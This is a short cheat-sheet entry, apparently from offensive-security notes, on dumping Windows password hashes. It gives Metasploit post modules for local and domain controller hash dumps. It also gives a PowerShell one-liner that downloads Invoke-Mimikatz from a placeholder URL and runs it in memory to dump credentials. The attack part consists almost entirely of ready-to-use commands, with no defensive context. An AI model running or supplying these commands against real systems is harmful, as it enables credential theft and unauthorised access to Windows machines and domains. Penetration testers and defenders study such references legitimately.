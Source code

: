 # Windows Hash Dumping

**Description:** This entry describes how to dump Windows system hashes

**Requirements:** powershell, Metasploit

## Dumping Windows hashes

```
run post/windows/gather/hashdump
```

Gather hashes with Meterpreter

Dump the local user accounts from the SAM database using the registry

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://<invoke-mimkatz>'); Invoke-Mimikatz -DumpCreds"
```

Run Invoke-Mimikatz in memory with Powershell web cradle. You can add all arguments to the end of command

```
use post/windows/gather/credentials/domain_hashdump
```

Dump hashes from domain controller safely with Meterpreter

  
## References
* [Powerspoit - Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)